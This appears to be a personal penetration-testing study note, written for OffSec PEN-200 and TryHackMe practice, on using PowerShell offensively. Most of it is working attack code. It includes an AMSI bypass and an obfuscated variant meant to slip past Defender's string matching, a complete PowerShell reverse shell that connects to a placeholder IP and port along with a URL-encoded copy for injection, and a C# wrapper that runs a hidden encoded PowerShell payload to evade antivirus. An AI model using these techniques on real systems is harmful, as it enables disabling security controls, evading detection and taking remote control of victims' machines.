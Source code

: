 # Exploiting PowerShell

author:: Nathan Acks  
date:: 2022-09-02

# Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

* [2022-08-24 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

# Pure PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell... There's no initial prompt, so you have no idea whether you've connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [@rootsecdev on Twitter](https://twitter.com/rootsecdev/status/1487612184498774019)

# Compile C# Programs to Bypass Anti Virus

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating.

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

* [2022-09-02 - OffSec Live: PEN-200](../log/2022-09-02-offsec-live-pen-200.md)
* [Using Mimikatz](mimikatz.md)
